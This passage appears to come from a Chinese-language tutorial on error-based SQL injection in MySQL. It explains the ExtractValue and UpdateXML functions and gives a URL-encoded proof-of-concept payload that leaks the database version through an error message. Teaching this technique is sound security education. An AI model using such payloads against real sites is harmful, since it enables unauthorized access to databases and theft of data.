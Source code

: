 我们仍然可以利用`concat`函数将想要获得的数据库内容拼接到第二个参数中，报错时作为内容输出。

```text
SELECT ExtractValue('<a><b><b/></a>',concat('~',(SELECT version())));
```

这时我们已经可以在报错信息中看到版本号了：

![](../../../.gitbook/assets/tu-pian%20%28102%29.png)

POC：

```text
ddd%27and%20(extractvalue(1,concat(0x26,(version()),0x26)));--+
```

![](../../../.gitbook/assets/tu-pian%20%2843%29.png)

`UpdateXML(xml_target, xpath_expr, new_xml)` ，由官网文档可知，此函数用来更新选定XML片段的内容，将XML标记的给定片段的单个部分替换为 `xml_target` 新的XML片段 `new_xml` ，然后返回更改的XML。`xml_target`替换的部分 与`xpath_expr` 用户提供的XPath表达式匹配。

如果`xpath_expr`未找到表达式匹配 ，或者找到多个匹配项，则该函数返回原始 `xml_target`XML片段。所有三个参数都应该是字符串。使用方式如下：

```text
SELECT
UpdateXML('<a><b>ccc</b><d></d></a>', '/a', '<e>fff</e>') AS val1,
UpdateXML('<a><b>ccc</b><d></d></a>', '/b', '<e>fff</e>') AS val2,
UpdateXML('<a><b>ccc</b><d></d></a>', '//b', '<e>fff</e>') AS val3,
UpdateXML('<a><b>ccc</b><d></d></a>', '/a/d', '<e>fff</e>') AS val4,
UpdateXML('<a><d></d><b>ccc</b><d></d></a>', '/a/d', '<e>fff</e>') AS val5
```

![](../../../.gitbook/assets/tu-pian%20%2841%29.png)
